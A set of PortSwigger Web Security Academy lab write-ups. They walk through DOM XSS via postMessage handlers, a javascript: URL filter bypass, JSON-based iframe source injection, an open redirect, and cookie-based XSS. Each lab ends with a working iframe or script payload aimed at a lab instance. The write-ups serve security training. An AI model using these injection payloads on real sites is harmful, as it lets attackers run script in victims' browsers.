



# Portswigger Writeups

## Lab 1: DOM XSS Using Web Messages

To solve the lab, call `print()` for the victim. I am given an exploit server. Since this is DOM XSS, the lab requires us to identify a sink and pass some JS input into it.

I noticed this bit in the `/` directory:

```js
window.addEventListener('message', function(e) {
    document.getElementById('ads').innerHTML = e.data;
})
```

The `addEventListener` function waits for a `message` on the `window` object. Upon its existence, it sets the `innerHTML` to the message `e.data`.

This is vulnerable because it takes some user controlled input and passes it to `innerHTML`. The `innerHTML` sink does not accept `<script>` elements on the modern browser, so I have to use `iframe` or `img`.

So firstly, I have to find a way to send a `message` to this thing. Reading the Mozilla documentation shows that I can use the `postMessage()` function to enable cross-origin communication between `window` objects.




So I can use an `iframe` to make the user visit the shop. Afterwards, I can refer to the current `iframe` via `contentWindow`.



Then, I can use `onload` to load the `postMessage` function, which passes the payload to the website and executes it within the user's browser. The `targetOrigin`, which is the second argument for `postMessage` is set to `*`.

This specifies that there is no preference for the origin of the window to be for the event to be executed, meaning the event will always execute regardless.

Thus, the final payload is:

```html
<iframe src="https://0adc00ec0335325e8357f58f00bd0031.web-security-academy.net/" onload="this.contentWindow.postMessage('','*')">
```

## Lab 2: Web Messages and Javascript URL

This demonstrates a DOM-based redirection vulnerability caused by web messaging. To solve the lab, construct a HTML page that calls `print()` and deliver it to the victim.

Here's the code in the page:

```js
window.addEventListener('message', function(e) {
    var url = e.data;
    if (url.indexOf('http:') > -1 || url.indexOf('https:') > -1) {
        location.href = url;
    }
}, false);
```

Similar to the one above, just that this time it checks for the existence of `http:` or `https:` before carrying on. This `indexOf` simply checks whether it is `> -1`. This means that as long as I include `http:` anywhere in the URL, I can bypass this check and get to the redirect vulnerability.

The payload used is similar to Lab 1, but this time I have to pass a `url` to the page. The lab says to use Javascript URLs, and I can use `//` to comment the `http:` portion:

```html
<iframe src="https://0ac500f80450410e8167209500bb0003.web-security-academy.net/" onload="this.contentWindow.postMessage('javascript:print()//http:','*')">
```

## Lab 3: Web Messages and `JSON.Parse`

Same as above, just that this time I have to pass a JSON object. The Javascript embedded in the page is significantly longer:

```js
window.addEventListener('message', function(e) {
    var iframe = document.createElement('iframe'), ACMEplayer = {element: iframe}, d;
    document.body.appendChild(iframe);
    try {
        d = JSON.parse(e.data);
    } catch(e) {
        return;
    }
    switch(d.type) {
        case "page-load":
            ACMEplayer.element.scrollIntoView();
            break;
        case "load-channel":
            ACMEplayer.element.src = d.url;
            break;
        case "player-height-changed":
            ACMEplayer.element.style.width = d.width + "px";
            ACMEplayer.element.style.height = d.height + "px";
            break;
    }
}, false);
```

The most notable `d.type` would be `d.url`, since it directly passes `d.url` to `.src.`. This allows for me to pass Javascript URLs.

To exploit this, I would need to first generate a JSON object, and then specify the `type` as `load-channel`, and then `url` as `javascript:print()`.

Here's the final payload, and there are lot of control characters required.

```html
<iframe src="https://0a49002304351ed583233c9300dc0044.web-security-academy.net/" onload='this.contentWindow.postMessage("{\"type\":\"load-channel\",\"url\":\"javascript:print()\"}","*")'>
```

## Lab 4: Open Redirection

This lab contains an open-redirection vulnerability. To solve the lab, redirect the vi9ctim to the exploit server.

When viewing a product, I noticed this at the bottom of the page source:

```html
<div class="is-linkback">
    <a href='#' onclick='returnUrl = /url=(https?:\/\/.+)/.exec(location); location.href = returnUrl ? returnUrl[1] : "/"'>Back to Blog</a>
</div>
```

What this does is take the `url` parameter from the URL and then redirects the user to it. It checks for this via Regex (hence explaining the syntax highlighting). It checks the URL because it uses `.exec(location)`. The `location` object refers to the URL it is linked to.

There's a ternary operator, which basically checks for the `returnUrl` parameter existence. If it does not exist, it returns the user to `/`.

There is an obvious open redirect since the `url` parameter is controlled by the user, and it is passed to the `location.href` sink.

To solve the lab, just visit `https://0a380022033605cb8014628100a40070.web-security-academy.net/postId=3&url=https://exploit-0ae900e3037c054a808161c001d1006a.exploit-server.net/exploit`.

## Lab 5: Cookie Manipulation

This lab has a cookie vulnerable to XSS. To solve the lab, call `print()` for the victim. When visiting a product page, this is the cookie sent:



And here's the Javascript code within the page:

```js
document.cookie = 'lastViewedProduct=' + window.location + '; SameSite=None; Secure'
```

The cookie changes this part of the page:



```html
<a href='https://0a7900c003d489dd868e9ae5002700a4.web-security-academy.net/product?productId=2'>Last viewed product</a><p>|</p>
```

The above can be escaped to execute XSS. Using `?productId=2'><script>alert(1)</script>` results in an invalid product ID. Including an `&` character to indicate another parameter works:

```
?productId=2&'><script>alert(1)</script>
```

To call this, I have to visit the page twice with the same URL in order to set the `lastViewedProduct` cookie. 



So somehow, I have to make the user visit the same page twice, once with the payload and once without.

The easiest way to do this is:

1. Make the user visit the page with the payload.
2. Wait a bit.
3. Redirect the user back to the default page.

The wait can be done using `setTimeout()`, and the redirect can be done with `document.location`.

```js
<iframe src="https://0a7900c003d489dd868e9ae5002700a4.web-security-academy.net/product?productId=2&xss='><script>print()</script>"></iframe>
<script>
setTimeout(function() {
    document.location.href = "https://0a7900c003d489dd868e9ae5002700a4.web-security-academy.net";
}, 2000);
</script>
```

